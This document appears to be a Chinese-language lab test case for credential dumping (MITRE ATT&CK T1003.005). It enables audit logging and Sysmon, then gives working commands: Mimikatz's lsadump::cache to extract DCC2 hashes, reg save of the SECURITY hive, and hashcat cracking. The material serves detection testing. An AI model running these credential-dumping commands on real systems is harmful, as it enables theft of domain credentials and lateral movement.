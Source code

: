 # T1003.005-Win-DCC2-Mimikatz凭证获取

## 描述

凭据转储（Credential Dumping，MITRE ATT&CK T1003.005）涉及攻击者提取缓存的域凭据（Domain Cached Credentials，DCC），以在域控制器不可用时进行身份验证。Windows Vista及以上版本使用DCC2（MS-Cache v2，mscash2）哈希格式，存储于注册表`HKEY_LOCAL_MACHINE\SECURITY\Cache`中。DCC2哈希基于PBKDF2算法，较早期mscache1更安全，无法直接用于传递哈希（Pass-the-Hash，PTH）攻击，但可通过密码破解恢复明文密码。攻击者通常以SYSTEM权限使用Mimikatz、secretsdump.py或reg.exe提取缓存凭据。此技术需管理员或SYSTEM权限，常用于横向移动或权限提升。

## 测试案例

### 测试环境
- 系统：Windows 10或Windows Server 2019（已加入域abcc.org）
- 工具：Mimikatz、reg.exe
- 要求：管理员或SYSTEM权限、域环境（abcc.org）、启用Sysmon和Windows安全日志审计
- 用户：域用户（user1，密码：Password123）
- 默认缓存：10个用户凭据

### 测试准备
1. 确认域用户登录：
   - 使用域账户（如user1@abcc.org）登录系统，确保凭据缓存。
   - 验证缓存：
     ```cmd
     reg query HKEY_LOCAL_MACHINE\SECURITY\Cache
     ```
2. 确认权限：
   ```cmd
   whoami /priv
   ```
   - 确保具有`SeDebugPrivilege`或SYSTEM权限。
3. 启用日志审计：
   - 组策略：计算机配置 > 策略 > Windows设置 > 安全设置 > 本地策略 > 审核策略 > 进程跟踪、对象访问 > 启用成功和失败审计。
   - 安装Sysmon：<https://docs.microsoft.com/sysinternals/downloads/sysmon>
     - 配置：启用事件ID1（进程创建）、13（注册表操作）。
4. 下载Mimikatz：
   - URL：<https://github.com/gentilkiwi/mimikatz>
   - 放置于本地（C:\Tools\mimikatz）。
5. 确保域控制器可访问（生成初始缓存）。

### 测试步骤
1. **使用Mimikatz提取DCC2哈希**：
   ```cmd
   cd C:\Tools\mimikatz
   mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
   ```
   - 输出示例：
     ```
     mscache:
       * Username: user1
       * Domain: ABCC
       * MSCacheV2: <DCC2 Hash>
     ```
2. **使用reg.exe导出注册表缓存**：
   ```cmd
   reg save HKEY_LOCAL_MACHINE\SECURITY C:\Temp\security.hiv
   ```
   - 验证文件：`dir C:\Temp\security.hiv`
3. **离线破解DCC2哈希**（可选）：
   - 使用hashcat破解：
     ```cmd
     hashcat -m 2100 <DCC2 Hash> wordlist.txt
     ```
